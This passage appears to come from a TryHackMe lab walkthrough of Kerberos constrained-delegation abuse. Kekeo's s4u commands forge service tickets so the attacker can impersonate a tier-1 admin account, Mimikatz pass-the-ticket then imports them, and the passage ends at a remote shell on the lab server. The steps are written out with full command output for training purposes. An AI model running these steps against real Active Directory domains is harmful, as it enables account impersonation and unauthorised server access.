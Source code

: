 - **Kekeo**

```powershell
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [4/30/2022 1:29:00 PM ; 4/30/2022 11:29:00 PM] {R:5/7/2022 1:29:00 PM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): 548e500d4ee2f5c61710254ea9dd43e2ce0123026d329c97e512695e2f1777a7
  [s4u2self] t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

 **Parameters explained:**

- tgt - We provide the TGT that we generated in the previous step.
- user - The user we want to impersonate. Since t2_ accounts have  administrative access over workstations, it is a safe assumption that  t1_ accounts will have administrative access over servers, so choose a  t1_ account that you would like to impersonate.
- service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.

Run the command again, this time for the WSMAN service. Now that we have  the two TGS tickets, we can use Mimikatz to import them:

- **Mimikatz**

```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami